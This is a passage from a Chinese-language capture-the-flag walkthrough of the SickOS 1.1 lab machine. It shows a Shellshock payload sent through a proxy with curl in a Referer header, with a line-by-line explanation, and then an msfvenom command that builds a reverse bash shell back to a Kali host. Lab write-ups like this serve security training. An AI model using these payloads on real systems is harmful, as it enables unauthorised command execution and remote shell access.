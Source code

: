 扫描结果发现在路径/cgi-bin/status目录下存在shellshock漏洞。shellshock是一个有关bash的漏洞，也称为Bashdoor

尝试用curl发送请求进行验证

```bash
curl -v --proxy http://10.9.75.14:3128 http://10.9.75.14/cgi-bin/status -H "Referer:() {  test;}; echo 'Content-Type: text/plain'; echo; echo; /usr/bin/id;exit"
```

> - `curl`: Curl是一个命令行工具，用于发送HTTP请求和获取相应的数据。
> - `-v`: 这个选项表示在执行请求时显示详细的输出，包括请求头和响应信息。
> - `--proxy http://10.9.75.14:3128`: 这个选项指定了使用代理服务器进行请求。代理服务器的地址是10.9.75.14，端口是3128。这是为了通过代理服务器发起请求，可能是为了绕过某些防火墙或进行中间人攻击。
> - `http://10.9.75.14/cgi-bin/status`: 这是要请求的URL地址。10.9.75.14是目标服务器的IP地址，/cgi-bin/status是目标服务器上的一个CGI脚本路径。
> - `-H "Referer:() { test;}; echo 'Content-Type: text/plain'; echo; echo; /usr/bin/id;exit"`: 这个选项指定了一个自定义的请求头"Referer"。Shellshock漏洞可以通过构造恶意的Referer头来执行任意命令。在这个例子中，构造的Referer头包含了一段Shellshock的Payload，以执行/usr/bin/id命令并打印当前用户的身份信息

![image-20231210143314347](./SickOS1.1.assets/image-20231210143314347.png)

## msfvenom反弹 shell

用msfvenom生成反弹shell到kali的6868端口的命令。Kali中的msfvenom取代了msfpayload和msfencode，**常用于生成后门木马**。生成bash反弹shell命令的如下

```bash
sudo msfvenom -p cmd/unix/reverse_bash lhost=10.9.75.3 lport=6868 -f raw
```

> -p表示指定需要使用的payload(攻击荷载)，这里使用反弹的bash的shell，即reverse_bash
>
> -f 指定输出格式，这里使用源码格式raw。
>
> lhost和lport表示反弹shell的ip和端口，此处是kali的ip和一会开启nc监听的6868端口。
